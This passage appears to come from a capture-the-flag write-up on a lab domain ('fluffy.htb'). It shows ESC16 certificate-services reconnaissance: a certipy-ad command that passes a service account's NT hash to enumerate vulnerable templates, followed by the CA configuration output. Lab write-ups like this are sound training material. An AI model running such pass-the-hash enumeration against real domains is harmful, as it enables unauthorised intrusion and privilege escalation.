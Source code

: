 ## ESC16

- There doesn't seem to be anything special about the WINRM_SVC user

```bash
certipy-ad find -vulnerable -u CA_SVC -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8" -dc-ip 10.10.11.69

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'fluffy-DC01-CA' via CSRA: Could not connect: timed out
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via RRP
[*] Got CA configuration for 'fluffy-DC01-CA'
[*] Saved BloodHound data to '20250529113421_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250529113421_Certipy.txt'
[*] Saved JSON output to '20250529113421_Certipy.json'

```

- No templates were found.

```bash
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
Certificate Templates                   : [!] Could not find any certificate templates
```
